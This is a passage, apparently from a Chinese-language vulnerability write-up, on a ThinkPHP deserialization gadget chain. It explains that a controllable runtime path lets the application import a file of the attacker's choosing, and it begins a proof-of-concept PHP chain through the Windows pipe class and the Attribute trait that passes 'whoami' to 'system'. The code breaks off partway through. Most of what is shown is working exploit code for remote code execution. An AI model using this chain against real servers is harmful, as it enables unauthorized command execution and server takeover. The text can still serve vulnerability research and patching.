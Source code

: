 ![](./pics5.2/8.png)
`getRuntimePath()`也可控
![](./pics5.2/9.png)
这里我们配置
```php
    class App{
        protected $runtimePath;
        public function __construct(string $rootPath = ''){
            $this->rootPath = $rootPath;
            $this->runtimePath = "/tmp/test/test";
            $this->route = new \think\route\RuleName();
        }
    }
```
存在`/tmp/test/testroute.php`文件，这样即可import这个文件，达成代码执行



### POCs
#### POC I
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{
        private $data = ['test' => "whoami"]; 	//此处2个键名要相同，值为$value
        private $withAttr = ['test' => "system"];	//此处2个键名要相同，值为$closure
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
```